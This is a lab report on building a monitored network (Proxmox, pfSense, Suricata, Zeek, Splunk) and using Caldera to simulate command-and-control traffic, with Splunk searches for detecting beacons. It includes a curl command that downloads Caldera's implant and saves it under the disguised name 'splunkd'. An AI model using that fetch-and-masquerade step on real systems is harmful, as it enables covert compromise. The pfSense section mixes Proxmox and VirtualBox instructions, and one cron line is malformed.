---
toc:
  depth_from: 2
  depth_to: 4
  ordered: true
---
<!-- markdownlint-disable MD045 MD033 -->
# Implementation Report: C2 Simulation Exercise

## Table Of Contents {ignore=true}

[TOC]
<div style="page-break-after: always;"></div>

## Proxmox

Proxmox VE (Virtual Environment) is an open-source server virtualization platform. It is designed for managing Virtual Machines (VMs), containers, and associated storage, all through a single web-based interface. It integrates KVM (Kernel-based Virtual Machine) for full virtualization and LXC (Linux Containers) for containerization.

### Preparing for Installation

1. Download Proxmox VE ISO
    - Go to the [Proxmox VE download page](<https://www.proxmox.com/en/downloads>).  
    - Download the latest Proxmox VE ISO image.  
2. Create a Bootable USB Drive
    - Use a tool like Rufus (Windows) or Balena Etcher (Linux/Mac) to create a bootable USB drive.  
    - Select the downloaded Proxmox VE ISO and follow the tool's instructions to create the bootable media.

### Installation Process

1. Boot from USB
    - Insert the bootable USB drive into the server.  
    - Power on the server and access the BIOS/UEFI settings to set the USB drive as the primary boot device.  
    - Save the settings and reboot.  
2. Start the Installation
    - When the Proxmox VE installer menu appears, select Install Proxmox VE.  
    - Read and accept the EULA (End User License Agreement).  
3. Configure Disk and System
    - Disk Selection: Choose the hard disk where Proxmox VE will be installed. All data on this disk will be erased.  
    - Country, Time Zone, and Keyboard Layout:  
        - Set your location, time zone, and preferred keyboard layout.  
    - Administrator Password:  
        - Set a strong password for the `root` user.  
        - Enter a valid email address for system notifications.  
4. Network Configuration
    - Hostname: Set a unique hostname for the Proxmox server.  
    - IP Address: Assign a static IP address, subnet mask, and gateway.  
    - DNS Server: Set the DNS server address.  
    - Configure the network settings  
5. Finalize Installation
    - Review your settings and click Install.  
    - The installation will proceed, and the server will reboot when completed.

### Initial Configuration

1. Access the Web Interface
    - After the reboot, remove the USB drive.  
    - Open a web browser on a device connected to the same network and navigate to: `https://\<Proxmox_IP\>:8006`  
    - Log in using the `root` username and the password set during installation.  
2. Update Proxmox VE
    - Navigate to Datacenter -> Updates.  
    - Click Refresh to fetch the latest updates.  
    - Install any available updates.  
3. Configure Storage and Network (Optional)
    - Storage: Set up additional storage under Datacenter -> Storage.  
    - Network: Manage network interfaces, bridges, and VLANs under Datacenter -> Network

<div style="page-break-after: always;"></div>

## Splunk

Splunk is a powerful data platform used for searching, analyzing, and visualizing machine-generated data. It helps organizations gain valuable insights from their data to improve operations, security, and business decisions.

### Installation guide

Installing Splunk on Debian

- Download the Splunk .deb file from the Splunk website.  
- Use the following command to install it:

```sh
sudo dpkg -i splunk-<version>-linux-<architecture>.deb
```

### Starting Splunk

sudo /opt/splunk/bin/splunk start

### Accessing Splunk

Open a web browser and navigate to `http://<VMIP>:8000` to complete the initial setup.
<div style="page-break-after: always;"></div>

## Guide to Setting up pfSense and Suricata in Splunk

### Step 1: pfSense SSH Setup

The first thing you’ll need to do is log into your pfSense web GUI and go to **System \> Advanced** to enable secure shell access to your router if you have not done so. This will be needed for future steps.

The best practice here would be to set up access with a public key and password but for the sake of demonstration, we’re simply going to enable password authentication at this time.

  
Once you have enabled SSH in the web GUI, verify that you can ssh to the router by using PuTTY, PowerShell, or your favorite terminal environment. `ssh root@ip-of-router`. The password would be the same password you use to authenticate to the web GUI.  


### Step 2: pfSense Suricata Install

To install Suricata, it’s as simple as clicking a few buttons. We will need to go to **System -> Package Manager -> Available Packages**. Scroll down until you find “Suricata” and then click install.

### Step 3: Splunk Setup

#### Splunk Index Setup

Before we get any further, we need to configure Splunk to receive our data.

To make things simple, we are going to create two indexes. One for pfSense called “network,” and another for Suricata called “ids.” I recommend you create and keep a table of indexes handy so you know where to look for your data within Splunk. This will solve future headaches when you’re looking for certain events.

1. To create an index, log into Splunk and then click **Settings -> Indexes**.



2. Once on the “Indexes” page, we will want to click “New Index” in the top right corner of the page. You will then be presented with options for creating a new index.

3. For the first index, we will name it “network.” You can leave the rest of the settings alone unless you want to set up index retention which can be learned about [here](https://docs.splunk.com/Documentation/Splunk/8.0.3/Indexer/Setaretirementandarchivingpolicy).

4. Once finished, go ahead and save the index.

Repeat this process for the other index needed called “ids”.



#### Splunk Apps Installation

Next, we need to download a few of the Splunk apps from [splunkbase.splunk.com](https://splunkbase.splunk.com/)

The following links will take you to the apps we will be using in this tutorial:

- [Splunk Common Information Model (CIM)](https://splunkbase.splunk.com/app/1621/) – “The CIM helps you to normalize your data to match a common standard, using the same field names and event tags for equivalent events from different sources or vendors.” This will allow us to build alerts and reports easily after everything is set up.  
- [TA-pfSense](https://splunkbase.splunk.com/app/1527/) – This allows Splunk to extract fields from pfSense logs.  
- [Splunk TA for Suricata](https://splunkbase.splunk.com/app/2760/) – This allows Splunk to extract fields from Suricata logs.

Go ahead and download those apps. You’ll need to install them onto your Splunk server and on your pfSense Splunk forwarder, which we’ll set up later in the tutorial.

To install the apps on your Splunk server, click **Apps -> Manage Apps** in the top left corner.

  
We will then want to click “Install app from file” and choose one of the apps you recently downloaded. Once chosen, click “Upload” and repeat until all three apps are uploaded.  
  
We won’t need to configure any of the installed apps. Once all of the apps are uploaded, we can continue to the next step.

#### Splunk Data Inputs

Now that we have the apps installed, we need to configure UDP receiving ports. This can be achieved by going to **Settings -> Data Inputs**. Click “+ Add New” next to UDP. We need to configure a UDP port to receive pfSense logs from the GUI.

We will be taken to the add data page within Splunk. Let’s go ahead and add in a port to receive our logs. I am going to use port 5147.

  
In the source type drop-down, type “pfsense”. We need to select pfsense without the “:” as seen in the image below.  
  
The next setting we need to change is the host field. Select “Custom” and type in the hostname of your pfSense router. Once that’s complete, select the index drop-down and select the “network” index we created earlier.  


Continue to the next page by clicking “Review,” verify your new data input settings, and click “Submit.”

Once that is complete, we need to set up our receiving port for our forwarder. Go to Settings -> Forwarding and Receiving. Click “Add New” next to “Configure receiving.” In the “Listen on this port” field, enter “9997.” Once that is done, hit “Save” and then we can go back to the Splunk homepage by clicking on “Splunk->” in the top left corner.



### Step 4: pfSense Remote Logging Setup

We need to set up pfSense to log to the new index and data input we just set up. To do so, in pfSense’s web GUI go to the NAVbar and select **Status -> System Logs**. Once there, we need to go to the settings tab and scroll down to the bottom of the page.

  
Go ahead and check the “Enable Remote Logging” box. Enter the IP address of your Splunk server followed by the port number we set up in the Data Inputs section. The last thing we need to do is check the “Everything” box under Remote Syslog Contents. Save the page.  
  
At this point, we should be able to go back to our Splunk instance and run the following search.

```SPL
index=network sourcetype=pfsense*
```

You should now see pfSense events returning from your Splunk search with all fields from the TA extracted! If you don’t see all fields being extracted, be sure to run the search in “Verbose Mode.”



### Step 5: Configuring pfSense Suricata

Okay, we have pfSense logs inside Splunk. Now we need to get our IDS setup and then get the logs shipped to Splunk. Let’s get started! Since we installed Suricata in a past step, we just need to configure it.

Let’s go to **Services -> Suricata** inside of pfSense. We first need to go to the Global Settings tab and enable rules to download. Since free is good enough for my environment, I enabled ETOpen Emerging Threats and I set up a Snort account to download the free community Snort rules. [You can sign up for an account here](https://www.snort.org/).

You can change the update interval to automatically download the new rules added to ETOpen and Snort Community rule base.



Next, we want to go to the “Updates” tab and hit “Force” to force download all the rules we selected on the previous page.

Once that is done, we can return to the Interfaces tab and click the “+ Add” button to set up the WAN interface. There will be a few screenshots below–these are what I determined to give the best logging output. We need Suricata to log in EVE JSON mode.

  
We now have to determine if we want to block offenders or not. You have the option to pick between legacy mode or inline mode. I recommend checking out this blog post on [Netgate’s forums](https://forum.netgate.com/topic/109417/suricata-inline-versus-legacy-ips-mode/2) to determine what would be the best option in your use case scenario. I selected Legacy for my use case. Go ahead and hit save.  
  
Next let’s go to the Categories tab and select the rule sets you want to enable.  
  
Finally, let’s go back to the interfaces tab and hit the green arrow next to WAN. This should enable Suricata.

### Step 6: pfSense Splunk Forwarder and Shipping of Suricata logs

In order to ship the Suricata logs to our Splunk server, we need to install a Splunk forwarder. Since pfSense is FreeBSD, we need the [Splunk Universal FreeBSD forwarder found here.](https://www.splunk.com/en_us/download/universal-forwarder.html\#tabs/freebsd) Once that is downloaded, I found the easiest way to get it on pfSense is to unzip the .txz file and then SCP the folder to pfsense.

If you’re on Mac or Linux, to extract the .txz file, run the following command:

```sh
tar xzvf splunkforwarder-8.0.3-a6754d8441bf-freebsd-11.1-amd64.txz
```



We will be left with a few files in the directory that we unzipped the folder into. Next, we will want to scp (copy the files over SSH) the folder to our pfSense router using the following command:

```sh
scp -r opt/ root@ip-of-pfsense:/root/
```

While we’re at it, let’s unzip the Suricata TA that we downloaded earlier and scp the folder to the router as well with the following commands

```sh
tar xzvf splunk-ta-for-suricata_233.tgz
scp  -r TA-Suricata/ root@ip-of-pfsense:/root/
```



Having done that, we can SSH back into the router and hit option “8” for Shell. When we choose option 8, it should put us into the /root/ directory. From here, we can run an “ls” command to verify that the scp commands were successful. You should see an “opt” and “TA-Suricata” folder in /root/.

1. Let’s go ahead and move the opt folder to the / directory by issuing the command:

```sh
mv opt/ /
```

1. Next we need to move the TA-Suricata folder to the apps folder using the following command

```sh
mv TA-Suricata /opt/splunkforwarder/etc/apps
```

3. Now that we have the opt directory moved and the Suricata TA in the apps folder, let’s go to the Splunk forwarder folder and configure our outputs

```sh
cd /opt/splunkforwarder/etc/system/local
```

4. The outputs.conf file tells the Splunk forwarder where to send the data to

If there isn’t a outputs.conf file in the folder, let’s create one with the following content

> **Side note:** pfSense’s only text editor is Vi. Yes, I know. I’m sorry… This won’t be the time or place to discuss text editors, but If you need help in Vi, there are countless guides online

```conf
[tcpout]
defaultGroup=my_indexers

[tcpout:my_indexers]
server=ip-of-splunk-server:9997
```

5. Next, let’s configure the Suricata TA to monitor our Suricata Eve JSON log we set up earlier

6. We need to change directories to our TA-Suricata folder

```sh
cd /opt/splunkforwarder/etc/apps/TA-Suricata/default
```

7. Note what folder name Suricata is logging to. We can do so by ls-ing the log folder for Suricata

```sh
ls /var/log/suricata/
```



Keep note of the folder names! In my case, I have two Suricata folders inside of my Suricata log folder as I am using suricata on two interfaces. In your case, you may only have one.

8. We will now need to make/edit our inputs.conf file inside of /opt/splunkforwarder/etc/apps/TA-Suricata/default.

9. Open Vi and make the following edit:

```conf
[monitor:///var/log/suricata/suricata_interface_from_previous_ls_command/eve.json]
sourcetype=suricata
index=ids
host=pfSense.home
```

10. Finally, we just need to start the Splunk Forwarder. Let’s change directories to the Splunk bin folder

```sh
cd /opt/splunkforwarder/bin
```

11. To set Splunk to start on bootup of pfSense, run

```sh
./splunk enable boot-start
```

12. To start Splunk run

```sh
./splunk start
```

Let’s check out our new logs in Splunk

```SPL
index=ids sourcetype=suricata*
```



Great! As you can see, we are now receiving extracted Suricata logs being returned from our search. Since we installed the CIM app, we can do stuff like tag=dns and receive back DNS logs and so forth. Again, if you don’t see all interesting fields on the left, be sure to run your search in “Verbose” mode.

<div style="page-break-after: always;"></div>

## Create Alerts

- in splunk go to search  
- index=ids | spath dest_port | search dest_port=8888| spath "http.url" | search "http.url"="/beacon”  
- Save as → alert  
- set parameters: run every hour if number of results > 5, add to triggered alerts

## Download abuse.ch feeds

- Add a data input for splunk: in splunk settings → data input -> files and directories  
  - /root/abuse  
  - denylist: *.csv  
  - host: [abuse.ch](http://abuse.ch)
  - index: abuse_ch  
- python script to fetch feeds (in /root/abuse)

@import "scripts/download_feeds.py" {as="py"}

use crontab to fetch the feeds automatically every hour

```sh
crontab -e
```

```conf
0 \* \* \* \* /usr/bin/python3 /root/abuse/download_feeds.py
```

<div style="page-break-after: always;"></div>

## Dashboard Creation

- Go to dashboards → create new dashboard  
- add line chart  
- data sources: index=ids| spath dest_port | search dest_port=8888 | timechart count span=1h  
- X axis \= time, y-axis \= count  
- add another panel with `index=ids source="/var/log/suricata/pfsense/suricata_vtnet155920/eve.json" | regex src_ip="192\.168\.2\.\\d{1,3}" | stats count by dest_port proto src_ip dest_ip | where count > 100 | sort - count` as search query for possible beaconing



### Add Report Correlating threatfox ports to suricata logs

- open search  
- `index="abuse_ch" source="/root/abuse/threatfox.csv" | where ioc_type = "ip:port" | rex field=ioc_value ".*:(?<port>.*)" | stats count by port,threat_type | where not port in (80, 443) | table port threat_type count | sort -count | head 20 | join where left=L right=R L.port = R.dest_port [search index="ids" source="/var/log/suricata/pfsense/suricata_vtnet155920/eve.json" | regex src_ip="192\.168\.2\.\\d{1,3}" ] | table L.port, L.threat_type, R.src_ip`  
- save as → report

<div style="page-break-after: always;"></div>

## Caldera

Caldera is an open-source cybersecurity platform designed to automate adversary emulation, assist manual red teams, and facilitate incident response. It leverages the MITRE ATT\&CK framework to simulate real-world cyberattacks, helping organizations identify vulnerabilities and improve their security posture

### Installation on kali

```sh
apt install caldera
vi /etc/systemd/system/caldera.service
```

```conf
| [Unit]
Description\=Caldera Service
After\=network.target

[Service]
User\=root
Group\=root
ExecStart\=/usr/bin/caldera
Restart\=always

[Install]
WantedBy\=multi-user.target
```

```sh
systemctl enable --now caldera
```

### Agents

#### 1. Access the CALDERA Web Interface

- Open your web browser and navigate to the CALDERA web interface.  
- Log in with your credentials.

#### 2. Navigate to the Agents Tab

- From the dashboard, click on the "Agents" tab in the navigation menu.

#### 3. Select and Install Agents

- In the Agents tab, you’ll see different types of agents available for installation.  
- Select the agent you want to deploy. Typically, this involves downloading a preconfigured script or executable.

#### 4. Deploy the Agent

- On the target machine where you want to install the agent, download the script or executable provided.  
- Run the script or executable as instructed on the target machine. This will install the agent and establish a connection back to the CALDERA server.

#### 5. Verify Agent Installation

- Return to the CALDERA web interface and check the Agents tab.  
- The newly installed agent should appear in the list, showing its status (e.g., active or idle).  
- You can now use this agent to simulate adversarial behaviour or collect data.

#### 6. Manage and Configure Agents

- Once the agent is installed, you can manage its settings directly from the CALDERA interface.  
- This might include configuring the agent's behaviour, assigning it to specific operations, or monitoring its activity.

#### 7. Use Agents in Operations

- After installing the agents, you can use them in various CALDERA operations.  
- Navigate to the "Operations" tab, create a new operation, and assign the agent to carry out tasks according to your needs.

<div style="page-break-after: always;"></div>

## PfSense

pfSense is an open-source customized distribution of FreeBSD, designed specifically for use as a firewall and router. It is widely recognized for its robustness and flexibility, offering enterprise-grade network security features that are fully managed through an intuitive web interface. pfSense is commonly used in both small-scale and enterprise environments to secure network infrastructures, manage traffic, and enforce security policies.

### Installation

First create two Linux Bridges on Proxmox VE, which will be used for LAN and WAN on the firewall VM.

Select the host from the server view

Navigate to System -> Network

This example uses enp4s0 and enp5s0 interfaces for the firewall, while enp3s0 is for Proxmox VE management. The naming of interfaces will vary depending on the hardware involved (interface type, bus location, etc.).

  
Click Create

Select Linux Bridge

Enter enp4s0 under Bridge ports

  
Repeat the process to add another Linux Bridge, this time add enp5s0 under Bridge ports.

  
Click Apply Configuration to configure the new interfaces in the OS

Click Yes to confirm the action

Proxmox VE networking should now display two Linux bridges like on the following screenshot.

Note

If the interfaces do not show as Active, reboot the Proxmox VE host.


### Configuration

#### 1. Prepare VirtualBox Networks

- **Create Network Interfaces**:  
  - **NAT Network (WAN)**: Use the default NAT network.  
  - **Internal Network (LAN)**: Create a new internal network called "intnet".  
  - **Internal Network (OPT1)**: Create another internal network called "opt1".

#### 2. Create pfSense Virtual Machine

- **New VM**:  
  - **Name**: pfSense  
  - **Type**: BSD  
  - **Version**: FreeBSD (64-bit)  
  - **Memory Size**: 1024 MB (1 GB)  
  - **Hard Disk**: Create a new virtual hard disk (20 GB).  
- **Network Adapters**:  
  - **Adapter 1**: Attached to NAT.  
  - **Adapter 2**: Attached to Internal Network "intnet".  
  - **Adapter 3**: Attached to Internal Network "opt1".

#### 3. Install pfSense

- **Start the VM**:  
  - Attach the pfSense ISO as the optical drive.  
  - Boot the VM to start the pfSense installer.  
  - Proceed with the default installation options.  
- **Partitioning**:  
  - Choose "Auto (UFS)" for the partitioning method.  
  - After installation, remove the ISO and reboot the VM.

#### 4. Initial Setup and Interface Assignment

- **Console Configuration**:  
  - Assign interfaces: Typically `em0` for WAN, `em1` for LAN, and `em2` for OPT1.  
  - Set up the IP address for the LAN interface (default is `192.168.1.1`).

#### 5. Access pfSense Web Interface

- **Connect to LAN**:  
  - Open a web browser on a machine connected to the "intnet" network.  
  - Go to `https://192.168.1.1`.  
  - Log in using the default credentials (`admin` / `pfsense`).

#### 6. WebConfigurator Setup Wizard

- **General Setup**:  
  - Configure hostname, domain, and DNS settings.  
- **Time Server**:  
  - Set the time zone for your location.  
- **WAN Configuration**:  
  - Leave as default if using DHCP on the WAN side.  
- **LAN Configuration**:  
  - Set the LAN IP and subnet.  
- **Admin Password**:  
  - Change the default admin password for security.

#### 7. Configure OPT1 Interface

- **Interface Setup**:  
  - Go to `Interfaces > OPT1`, enable the interface, and assign a static IP (e.g., `192.168.2.1`).  
- **DHCP Server**:  
  - Enable the DHCP server for the OPT1 interface under `Services > DHCP Server`.  
  - Define a range for IP assignments (e.g., `192.168.2.100` to `192.168.2.200`).

#### 8. Firewall Rules

- **Create Rules**:  
  - Go to `Firewall > Rules`.  
  - Create rules for LAN and OPT1 to allow traffic.

#### 9. Testing the Setup

- **Client Configuration**:  
  - Create a new VM in VirtualBox and connect it to the "intnet" network for LAN testing.  
  - Create another VM connected to "opt1" for OPT1 testing.  
  - Ensure both VMs can access the internet via the pfSense firewall.

#### 10. Final Adjustments

- **Security Hardening**:  
  - Consider setting up VPNs, VLANs, and additional firewall rules as needed.  
  - Regularly update pfSense for security patches.

<div style="page-break-after: always;"></div>

## Suricata

Suricata is an open-source, high-performance network intrusion detection and prevention system (IDS/IPS). It's capable of real-time traffic inspection at high speeds, making it suitable for large-scale networks. Suricata uses a combination of signature-based and anomaly-based detection techniques to identify malicious activity

### Installation on pfsense

System → package manager → suricata

#### Forward suricata logs to splunk with cron and rsync

- Set up ssh keys for passwordless login to splunk

```sh
ssh-keygen
ssh-copy-id -i .ssh/id_rsa.pub root@192.168.2.3
```

- install rsync

```sh
pkg install rsync
```

- Use the cron package to send the logs to splunk

```sh
crontab -e
```

```conf
*/15* ** * /usr/local/bin/rsync --recursive --delete-after --compress /var/log/suricata/ root@192.168.2.3:/var/log/suricata/pfsense/
```

- in splunk settings → data input -> files and directories  
  - /var/log/suricata/pfsense  
  - app context: TA-suricata  
  - host: pfsense  
  - index: ids

### Configuring Suricata on pfSense

- Next, we want to go to the “Updates” tab and hit “Force” to force download all the rules we selected on the previous page.  
- Once that is done, we can return to the Interfaces tab and click the “+ Add” button to set up the LAN interface. There will be a few screenshots below–these are what I determined to give the best logging output. We need Suricata to log in EVE JSON mode.  
  
    
  Next let’s go to the Categories tab and select the rule sets you want to enable.  
  
    

<div style="page-break-after: always;"></div>

## Detecting encrypted beacons

### Caldera

#### SSL

##### Setup Instructions  

Note: OpenSSL must be installed on your system to generate a new self-signed certificate

- In the root CALDERA directory, navigate to plugins/ssl.

- Place a PEM file containing SSL public and private keys in conf/certificate.pem. Follow the instructions below to generate a new self-signed certificate:

- In a terminal, paste the command:

```sh
openssl req -x509 -newkey rsa:4096 -out conf/certificate.pem -keyout conf/certificate.pem -nodes 
```

This will prompt you to identify details. Enter your country code when prompted. You may leave the rest blank by pressing enter.

- Copy the file haproxy.conf from the templates directory to the conf directory.

- Open the file conf/haproxy.conf in a text editor.

- On the line `bind *:8443 ssl crt plugins/ssl/conf/insecure_certificate.pem`, replace `insecure_certificate.pem` with `certificate.pem`.

- On the line `server caldera_main 127.0.0.1:8888 cookie caldera_main`, replace `127.0.0.1:8888` with the host and port defined in CALDERA’s conf/local.yml file. This should not be required if CALDERA’s configuration has not been changed.

- Save and close the file. Congratulations! You can now use CALDERA securely by accessing the UI https://<YOUR_IP>:8443 and redeploying agents using the HTTPS service.

- install haproxy

```sh
apt install haproxy
cd /var/lib/caldera/plugins/ssl
openssl req -x509 -newkey rsa:4096 -out conf/certificate.pem -keyout conf/certificate.pem -nodes
cp templates/haproxy.conf conf/
nano conf/haproxy.conf
```

- find `bind \*:8443 ssl crt plugins/ssl/conf/insecure_certificate.pem` and change to certificate.pem

- remove nbproc line

- run haproxy -f haproxy.conf to check for errors

- access caldera on port 8443 over https

#### Deploy https agents

don’t forget to add k flag to ignore self-signed certificate

```sh
curl -k -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd
```

### Zeek

1. Access the pfSense Web Interface  
   Log into your pfSense web interface using your browser.  
2. Navigate to the Package Manager  
   Go to System -> Package Manager. In the Package Manager, click on the "Available Packages" tab.  
3. Install Zeek  
   Search for "Zeek" in the available packages list. Click the + Install button next to Zeek to begin the installation process. Confirm the installation and wait for it to complete.  
4. Configure Zeek  
   After installation, navigate to Services -> Zeek to configure and start Zeek. Customize Zeek settings according to your network monitoring needs.  
5. Start Zeek  
   Enable and start the Zeek service. Review logs and performance to ensure Zeek is operating correctly on your network.

#### Enable ja4 fingerprinting

- install ja4 package and enable script dir  

```sh
zkg autoconfig  
zkg install zeek/foxio/ja4  
```

- set up crontab to send logs to splunk  

```sh
crontab -e
```  

```txt
*/15  * * * * /usr/local/bin/rsync --recursive --delete-after --compress /usr/local/logs/current/ root@192.168.2.3:/var/log/zeek/pfsense
```

#### Splunk Setup

- install TA for zeek: [https://splunkbase.splunk.com/app/5466](https://splunkbase.splunk.com/app/5466)  
- add data input in splunk:  
  - settings → data inputs → files and directories → new  
  - directory: /var/log/zeek/pfsense  
  - source type: zeek  
  - includelist: .*\.log  
  - index: zeek  
- search for beaconing

```SPL
index="zeek" sourcetype=zeek:ssl
| eval ja4_a=mvindex(split(ja4,"*"),0)
| eval alpn = substr(ja4_a, -2, 2)
| eval ja4s_a=mvindex(split(ja4s,"*"),0)
| eval server_alpn = substr(ja4s_a, -2, 2)
| where alpn == "00" or server_alpn = "00"
| stats count, values(id_orig_h) as id_orig_h_values, values(id_resp_h) as id_resp_h_values, values(ja4) as ja4_values, values(ja4s) as ja4s_values by server_name
| sort -count
| table count, server_name, id_orig_h_values, id_resp_h_values, ja4_values, ja4s_values
```
